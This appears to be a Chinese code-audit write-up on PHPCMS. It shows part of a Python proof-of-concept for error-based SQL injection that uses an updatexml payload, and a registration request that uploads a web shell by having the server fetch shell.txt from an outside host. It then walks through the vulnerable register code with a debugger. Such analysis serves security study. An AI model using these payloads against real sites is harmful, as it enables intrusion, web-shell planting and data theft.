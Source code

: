 ```python

    step3 = url + '/index.php?m=content&c=down&a_k=' + encode_payload
    #print 'step3:',step3
    r = requests.get(step3, cookies=cookies)
    result = re.findall('XPATH syntax error: \'(.*?)\'', r.content)
    print result

def run(url):
    payload = "&id=%*27 and updatexml(1,concat(1,(select user())),1)%23&modelid=1&catid=1&m=1&f="
    print poc(url, payload)

if __name__ == '__main__':
    run('http://127.0.0.1/phpcms')
```
## 任意文件文件上传

这里还有个文件上传漏洞，漏洞利用点是注册的地方，网上常见的一个payload:

```
index.php?m=member&c=index&a=register&siteid=1

post数据： 
siteid=1&modelid=11&username=test&password=testxx&email=test@qq.com&info[content]=<img src=http://xxxx/shell.txt?.php#.jpg>&dosubmit=1
```

这里我选择phpstorm配合xdebug动态调试一波，看看漏洞点在哪。

![8](/Users/l1nk3r/Desktop/代码审计考核材料/phpcms/phpcms-pic/8.png)

phpcms 注册在模块`/phpcms/modules/member` 的index.php文件中，找到register函数。

```php
//附表信息验证 通过模型获取会员信息
if($member_setting['choosemodel']) {
   require_once CACHE_MODEL_PATH.'member_input.class.php';
   require_once CACHE_MODEL_PATH.'member_update.class.php';
   $member_input = new member_input($userinfo['modelid']);       
   $_POST['info'] = array_map('new_html_special_chars',$_POST['info']);
   $user_model_info = $member_input->get($_POST['info']);                              
}
```

这里通过require_once包含了两个caches/caches_model/下的PHP文件，然后通过modelid new了一个member_input类。

```php
   require_once CACHE_MODEL_PATH.'member_input.class.php';
   require_once CACHE_MODEL_PATH.'member_update.class.php';
   $member_input = new member_input($userinfo['modelid']);       
```

这里我们下一个断点，动态调试下。

![9](/Users/l1nk3r/Desktop/代码审计考核材料/phpcms/phpcms-pic/9.png)
